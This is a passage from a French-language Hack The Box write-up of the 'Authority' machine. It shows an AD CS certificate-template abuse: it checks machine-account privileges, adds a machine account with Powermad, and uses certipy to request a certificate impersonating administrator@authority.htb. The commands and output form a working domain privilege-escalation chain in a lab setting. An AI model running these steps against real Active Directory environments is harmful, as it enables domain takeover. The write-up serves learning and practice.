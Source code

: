 Ceci est dû au fait que les objets d'un groupe héritent des propriétés de ce groupe, et que le certificat permet au demandeur de spécifier un SAN (ici administrator@authority.htb), ainsi que d'utiliser ledit certificat afin de s'authentifier.

1) **Ajout d'un compte machine**

Pour pouvoir ajouter un ordinateur, il faut avoir le privilège SeMachineAccountPrivilege. Ce privilège est de façon générale très dangereux.

```powershell
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

crackmapexec ldap <DC FQDN> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

Nous avons ce privilège.

Pour ajouter un compte machine, il y a plusieurs façons.

De mon côté, j'ai utilisé le script powermad. On peut aussi utiliser tout simplement impacket et son script addcomputer.py.

```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> New-MachineAccount -MachineAccount titi -Password $(ConvertTo-SecureString
 'Password123' -AsPlainText -Force)
[+] Machine account titi added
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Get-ADComputer -identity titi


DistinguishedName : CN=titi,CN=Computers,DC=authority,DC=htb
DNSHostName       : titi.authority.htb
Enabled           : True
Name              : titi
ObjectClass       : computer
ObjectGUID        : 10fe6603-5b9d-4cdd-acf0-aaad30da3809
SamAccountName    : titi$
SID               : S-1-5-21-622327497-3269355298-2248959698-12104
UserPrincipalName :
```

2) **Génération du certificat avec certipy**

```bash
┌──(kali㉿ldap)-[/media/sf_shared_folder_vm2/HTB/Boxes/Authoriy]
└─$ certipy req -u titi$ -p Password123 -template CorpVPN -dc-ip 10.129.161.2 -ca authority-ca -target authority.htb -upn administrator@authority.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 31
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
